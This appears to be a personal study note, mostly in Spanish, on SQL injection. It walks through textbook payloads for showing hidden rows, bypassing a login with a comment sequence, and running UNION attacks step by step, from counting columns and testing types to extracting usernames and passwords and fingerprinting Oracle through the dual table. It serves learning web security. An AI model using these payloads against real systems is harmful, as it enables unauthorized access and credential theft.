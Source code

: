 
# SQL Inyeccion

> SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database

## SQL injection examples****

### Retrieving hidden data

Por ejemplo cuando se usa ' or 1=1-- 

> SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1

En esta consulta muestras todos los datos ya que comentas lo que sigue despues de --

> The modified query will return all items where either the category is Gifts, or 1 is equal to 1. Since 1=1 is always true, the query will return all items.

### Subverting application logic


If the query returns the details of a user, then the login is successful. Otherwise, it is rejected.

Here, an attacker can log in as any user without a password simply by using the SQL comment sequence -- to remove the password check from the WHERE clause of the query. For example, submitting the username administrator'-- and a blank password results in the following query:


> SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'

Inyectando comentaria la otra parte

> SELECT * FROM users WHERE username = 'administrator'--' AND password = ''

Entonces si logramos comentar el and con '--

### Retrieving data from other database tables ( SQL injection UNION attacks )


When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack

***En resumen tienes que lograr esto***

> SELECT a, b FROM table1 UNION SELECT c, d FROM table2

Desde la peticion incial

> SELECT name, description FROM products WHERE category = 'Gifts'

***Restricciones***
Para que UNION funcione tiene que pasar el mismo numero de columnas en el union y tambien deben de manejar el mismo tipo de datos

#### Paso 1 

Ver cuantas columnas tienen esa tabla  se puede hacer por dos metodos 

Metodo 1

*** CTRL + U to url enconde en Burp Suite***

>' ORDER BY 1--

>' ORDER BY 2--

>' ORDER BY 3--

Hasta n cuando de error entonces ya no es valido osea es ir probando.

Metodo 2 

> 'UNION SELECT NULL,NULL,NULL--

Ir probando de igual que order by para ver cuantas columnas esta trabajando esa query

#### Paso 2 

Verificar el tipo de datos que maneja cada columna debe de ser del mismo tipo para que no falle ( si se usa burp url encodear antes de mandar)

>'UNION SELECT NULL,NULL,NULL--
>' UNION SELECT 'abcdef',NULL,NULL--

#### Paso 3 

Sacar datos(falta investigar los datos de la base como nombre de tabla etc) 

> ' UNION SELECT username, password FROM users--

### Oracle DB

#### Tabla dual

Para hacer frente a este problema Oracle creo la tabla dual que es accesible para todos los usuarios

Para realizar cualquier query necesitamos decirle a que tabla.

>In Oracle, the SELECT statement must have a FROM clause. However, some queries don’t require any table for example:

```
SELECT * FROM dual;
```

>Fortunately, Oracle provides you with the DUAL table which is a special table that belongs to the schema of the user SYS but it is accessible to all users.
The DUAL table has one column named DUMMY whose data type is VARCHAR2() and contains one row with a value X

Por o tanto para intentar el ataque de UNION tenemos que llamar a esta tabla o usar el ORDER BY como primer paso pero despues para el segundno paso ***ver que datos tienen esas columnas (STRINGS O NUMEROS) si es que no lo podemos inferir por los datos de la pagina EN la query usamos la tabla dual***

>'union select 'a',null from dual--

>'union select banner,null from v$version--

Para sacar laa version de oracle lo intuimos al mandar la query y que no nos responda despues mandarla con la tabla dual y que si nos responda.



# Bibliografia o Recursos Consultados

> https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635

>https://portswigger.net/web-security/sql-injection/cheat-sheet

